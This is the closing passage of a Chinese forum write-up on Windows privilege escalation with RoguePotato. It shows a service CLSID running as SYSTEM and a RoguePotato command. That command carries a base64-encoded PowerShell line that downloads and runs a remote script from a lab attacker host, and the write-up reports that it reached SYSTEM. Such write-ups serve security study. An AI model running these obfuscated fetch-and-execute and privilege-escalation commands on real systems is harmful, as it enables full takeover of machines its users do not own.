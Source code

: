 ![image-20211103172348801](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ac6d49c9c9e0aab30131ac99130843855d2c0344.png)

```php
UsoSvc  {E7299E79-75E5-47BB-A03D-6D319FB7F886}  {B91D5831-B1BD-4608-8198-D72E155020F7}  NT AUTHORITY\SYSTEM
```

继续

```php
.\RoguePotato.exe -r 10.10.14.6 -c "{B91D5831-B1BD-4608-8198-D72E155020F7}" -e "cmd.exe /c powershell -EncodedCommand SQBFAFgAKAAgAEkAVwBSACAAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADQALgA2ADoAOAA4ADgAOAAvAHMAaABlAGwAbAAxAC4AcABzADEAIAAtAFUAcwBlAEIAYQBzAGkAYwBQAGEAcgBzAGkAbgBnACkACgA=" -l 9999
```

成功提权到system

总结
--

- 如果机器 &gt;= Windows 10 1809 &amp; Windows Server 2019 试试[Rogue Potato](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html#roguePotato)
- 如果机器 &lt; Windows 10 1809 &lt; Windows Server 2019 试试[Juicy Potato](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html#juicyPotato)

希望可以帮到各位师傅！